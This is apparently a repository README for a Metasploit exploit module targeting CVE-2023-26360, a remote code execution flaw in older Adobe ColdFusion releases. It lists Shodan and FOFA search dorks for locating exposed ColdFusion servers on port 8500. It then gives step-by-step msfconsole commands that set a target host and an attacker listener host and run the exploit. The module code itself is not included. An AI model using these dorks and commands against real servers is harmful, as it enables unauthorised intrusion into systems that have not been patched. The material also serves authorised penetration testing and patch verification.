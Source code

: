 # CVE-2023-26360
![](https://img.shields.io/static/v1?label=Product&message=Adobe%20Cold%20Fusion&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=2018%20Update%2015%20(and%20earlier)%20and%202021%20Update%205%20(and%20earlier)&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


- Shodan dork:
```
CFIDE port:"8500"
```
- FOFA dork:
```
body="CFIDE"&&port="8500"
```


```
cp adobe_coldfusion_rce_cve_2023_26360.rb /usr/share/metasploit-framework/modules/exploits/multi/http/
```
## Usage
```
msfdb reinit; msfconsole -q
```
```
use exploit/multi/http/adobe_coldfusion_rce_cve_2023_26360.rb
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```
